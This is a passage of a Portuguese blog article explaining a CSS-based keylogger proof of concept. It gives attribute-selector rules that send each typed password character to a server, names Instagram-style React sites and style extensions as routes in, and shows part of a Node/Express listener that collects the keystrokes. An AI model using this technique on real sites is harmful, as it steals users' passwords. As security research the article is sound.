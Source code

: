 Sabendo da maneira como o React e o CSS funcionam, podemos criar um keylogger para sites que usam o React, como o Instagram, ou que atualizam o atributo "*value*". Definimos regras como:

{% highlight css %}
input[type="password"][value$="A"] {
    list-style: url("http://localhost?A");
}
{% endhighlight %}

Onde `input[type="password"]` seleciona somente `<input>`'s que possuam o atributo `type="password"`, e `[value$="A"]` seleciona somente `<input>`'s cujo atributo value [termina](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors) em `A`.

Similarmente como acontece no exemplo de JavaScript, definimos um URL para ser requisitado pelo CSS, que será nosso meio de enviar a informação para o servidor. No caso, usamos a propriedade *list-style*, que não afeta esse elemento visualmente.

Repetindo essa regra para todos os caracteres relevantes, terminamos com um arquivo com 90+ linhas de código e um resultado não muito impressionante, mas suficientemente funcional:

<figure class="half center">
  <a href="{{ site.url }}/images/2018-05-13-TQJAhby.png"><img src="{{ site.url }}/images/2018-05-13-TQJAhby.png" alt="Fig. 3: Exemplo demonstrando o keylogger em CSS em funcionamento em um página de login. À direita, o terminal mostra que as teclas pressionadas no input de senha estão sendo recebidas pelo servidor."></a>
  <figcaption>Fig. 3: Exemplo demonstrando o keylogger em CSS em funcionamento em um página de login. À direita, o terminal mostra que as teclas pressionadas no input de senha estão sendo recebidas pelo servidor.</figcaption>
</figure>

Comparado ao keylogger em JavaScript, esse é claramente mais verboso e pesado: dos 56 bytes de código adicionados ao tamanho da URL, em JavaScript, partimos para quase 5000 bytes de 'código' adicionados ao tamanho da URL repetida 90 ou mais vezes, em CSS. Além disso, estamos presos a teclas cujos caracteres podem ser inseridos no input (teclas como F5, Ctrl, Shift, Backspace, passam despercebidas), o que não ocorre em JavaScript.

Ademais (uau que palavra linda), tive um problema estranho com o keylogger em CSS: teclas repetidas não eram enviadas novamente. Então, uma senha como "banana" se torna "ban", o final "ana" não é enviado por só conter caracteres que já foram testados. Acredito que isso seja devido a alguma otimização do CSS, para que ele não tente requisitar várias vezes a mesma página. Contudo, apesar de meus — admitidamente poucos — esforços para evitar um cache e forçar uma requisição repetida, não consegui consertar esse erro.

Temos, entretanto, a pequena vantagem de que é mais fácil carregar CSS sorrateiramente do que JavaScript. Extensões como [Stylish](https://chrome.google.com/webstore/detail/fjnbnpbmkenffdnngjfgmeleoegfcffe) permitem ao usuário adicionar estilos customizados feitos por terceiros e, muitas vezes, o usuário não tem conhecimento de CSS, então não sabe o que está adicionando.
## Criando o back-end
Desenvolvi um back-end bem simples para essa aplicação, por ser somente um *proof-of-concept*. Todo o código está disponível no GitHub (links no final do artigo), mas aqui vai um resumo:

{% highlight js %}
// Primeiro, fazemos alguns requires de módulos para criarmos um servidor web simples
const app = require("express")();
const fs = require("fs");
const http = require("http").Server(app);

// Em seguida, definimos o que rola ao requisitar o URL /listen:
app.get("/listener", function(req, res) {

    // Se recebemos uma tecla no URL,
    if(req._parsedUrl.search) {
        // Definimos que a tecla, k, é o que vem após '?' no URL, usando .slice:
        let k = req._parsedUrl.search.slice(1);

        // Decodificamos, se necessário (e.x.: %5B equivale a '[')
        if(k.charAt(0) == '%' && k != "%")
            k = decodeURIComponent(k);
        // E recuperamos a tecla do espaço, que pode ser perdida na requisição
        else if(k.length == 0)